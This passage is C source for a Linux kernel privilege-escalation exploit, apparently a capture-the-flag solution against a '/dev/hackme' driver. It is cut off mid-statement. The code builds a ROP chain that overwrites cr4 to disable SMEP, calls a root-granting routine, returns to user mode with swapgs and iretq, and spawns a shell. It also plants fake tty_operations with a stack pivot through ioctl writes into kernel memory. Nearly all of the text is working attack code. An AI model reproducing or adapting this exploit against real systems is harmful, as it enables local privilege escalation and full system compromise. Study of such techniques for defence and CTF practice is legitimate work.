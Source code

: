 ```c=
}

int main(){
	fd = open("/dev/hackme",O_RDONLY);
	save_status();
	size_t kaddr = get_heap_addr();
	get_kernel_addr();
	size_t push_rax_pop_rsp = kcode+0x1c7998;
	unsigned long lower_addr = push_rax_pop_rsp & 0xFFFFFFFF;
	unsigned long base = lower_addr & ~0xFFF;
	if (mmap(base, 0x10000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) != base)
	{	
		perror("mmap");
		exit(1);
	}
	printf("lower_addr %p\n",(void*)lower_addr);
	memset(lower_addr,'A',0x100);
	int i = 0;
    size_t rop[32] = {0};
    //rop[i++] = 0xdeedbeef;
    rop[i++] = kcode+0x1b5a1;      // pop rax; ret;
	rop[i++] = 0x6f0;
	rop[i++] = kcode+0x252b;      // mov cr4, rax ; push rcx ; popfq ; pop rbp ; ret;
	rop[i++] = 0;
	rop[i++] = (size_t)get_root;
	rop[i++] = kcode + 0x200c2e;  //swapgs ; popfq ; pop rbp ; ret
	rop[i++] = 0;
	rop[i++] = 0;
	rop[i++] = kcode+0x19356;      // iretq; ret;
	rop[i++] = (size_t)get_shell;
	rop[i++] = user_cs;                /* saved CS */
	rop[i++] = user_rflags;            /* saved EFLAGS */
	rop[i++] = user_sp;
	rop[i++] = user_ss;

	header[0] = 21;
	header[1] = (long long)rop;
	header[2] = 0xa0;
	header[3] = 0x30;
	if( ioctl(fd,0x30002,header) )  exit(0);	
	
	///// Write ROP on the kernel space
	
	for(int i = 0; i < 30; i++)
	{
		fake_tty_operations[i] = kcode+0x1a8966;
	}
	
	fake_tty_operations[7]  = push_rax_pop_rsp;

	
	header[0] = 22;
	header[1] = (long long)fake_tty_operations;
	header[2] = sizeof(fake_tty_operations);
	header[3] = 0;
	if( ioctl(fd,0x30002,header) )  exit(0);
	
	///// Write fake_tty_operations on the kernel space

	printf("kaddr = %p\n",(void*)kaddr);	
 	printf("push_rax_pop_rsp = %p\n",(void*)push_rax_pop_rsp);
	printf("magic = %p\n",(void*)rop[0]);
	header[3] = -(0x400*1);
```